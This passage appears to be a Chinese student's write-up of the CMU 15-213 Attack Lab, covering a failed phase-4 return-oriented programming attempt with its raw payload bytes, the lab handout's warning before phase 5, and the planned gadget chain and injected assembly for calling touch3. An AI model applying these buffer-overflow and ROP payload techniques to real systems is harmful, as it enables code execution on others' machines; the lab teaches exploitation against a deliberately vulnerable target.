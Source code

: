 验证

```
cat exploit.ans4 | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Misfire: You called touch2(0x59ba97fa)
FAIL: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:FAIL:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 BA 59 00 00 00 00 A3 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

### level 5

非常不友好的 作者竟然打出了**劝退**

> Before you take on the Phase 5, pause to consider what you have accomplished so far.  In Phases 2 and 3,you caused a program to execute machine code of your own design. If CTARGET had been a network server,you could have injected your own code into a distant machine.  In Phase 4, you circumvented two of the main devices modern systems use to thwart buffer overflow attacks.  Although you did not inject your own code, you were able inject a type of program that operates by stitching together sequences of existing code. You have also gotten 95/100 points for the lab. That’s a good score. If you have other pressing obligations consider stopping right now.



如果你只利用 `加法+写入` 来完成这个level 我只能说 技不如人,甘拜下风

直接对应level3 能换的换,根据上一个lab的经验

```
mov    $0x5561dca8,%rdi
pushq  $0x4018fa
retq
```

变为

```
字串起始地址->rdi
touch3地址放入栈
```

注意到这里的起始地址是**会变**的不像level3那样是固定的 但根据马克思说的运动是绝对的(附议)静止是相对的。所以 这个地址相对于`esp`指向的地址依然静止

变为

```
esp -> 寄存器
在寄存器里运算出 字符串的地址
放入rdi
touch3地址放入栈
```

看看64位文档 `RAX、RCX、RDX、R8、R9、R10、R11` 被视为易失的，而 `RCX、RDX、R8、R9` 一般用来传参，在这个lab里的文档也没教我们怎么玩`R10,R11` (64文档说必须根据需要由调用方保留；在 `syscall/sysret` 指令中使用)
